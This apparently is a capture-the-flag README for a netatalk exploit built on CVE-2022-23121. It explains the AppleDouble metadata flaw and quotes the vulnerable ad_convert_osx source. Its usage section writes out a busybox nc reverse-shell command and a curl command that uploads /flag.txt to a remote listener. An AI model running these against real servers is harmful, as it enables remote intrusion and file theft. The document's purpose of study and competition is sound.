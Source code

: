 ## netatalk

### 1 . Exploit basic usage

The exploit is using mainly `CVE-2022-23121`, and is inspired from the NCCGroup Write-up:

[https://research.nccgroup.com/2022/03/24/remote-code-execution-on-western-digital-pr4100-nas-cve-2022-23121/](https://research.nccgroup.com/2022/03/24/remote-code-execution-on-western-digital-pr4100-nas-cve-2022-23121/)

It use the same vulnerability, but in a different way to get code execution.

exploit usage is:

```plain
Usage:  exploit.py <IP> <port> <volume name> <cmd to execute>
```

for example if you set up a listener on a remote machine at IP 1.2.3.4 on port 12345, with command:

```plain
nc -vv -l -p 12345
```

you can receive a remote shell on this machine with this command:

```plain
python exploit.py 127.0.0.1 5548 Shared 'busybox nc 1.2.3.4 12345 -e /bin/bash;'
```

or you can also simply upload the `/flag.txt`file content to a remote listener:

```plain
python exploit.py 127.0.0.1 5548 Shared 'curl -X post -T /flag.txt 1.2.3.4:12345;'
```

### 2 . Exploit explanation

Exploit use mainly lack of verification of values passed in appledouble metadata file.

Files created on the netatalk server, can have appledouble metadata stored in a file named similarly but starting with ".\_"

These medata are processed by netatalk server when reading the original file.

The vulnerability lies mainly in: `netatalk-3.1.12/libatalk/adouble/ad_open.c`at line 582

```plain
static int ad_convert_osx(const char *path, struct adouble *ad)
{
    EC_INIT;
    static bool in_conversion = false;
    char *map;
    int finderlen = ad_getentrylen(ad, ADEID_FINDERI);
    ssize_t origlen;

    if (in_conversion || finderlen == ADEDLEN_FINDERI)
        return 0;
    in_conversion = true;

    LOG(log_debug, logtype_ad, "Converting OS X AppleDouble %s, FinderInfo length: %d",
        fullpathname(path), finderlen);

    origlen = ad_getentryoff(ad, ADEID_RFORK) + ad_getentrylen(ad, ADEID_RFORK);

    map = mmap(NULL, origlen, PROT_READ | PROT_WRITE, MAP_SHARED, ad_reso_fileno(ad), 0);
    if (map == MAP_FAILED) {
        LOG(log_error, logtype_ad, "mmap AppleDouble: %s\n", strerror(errno));
        EC_FAIL;
    }

```
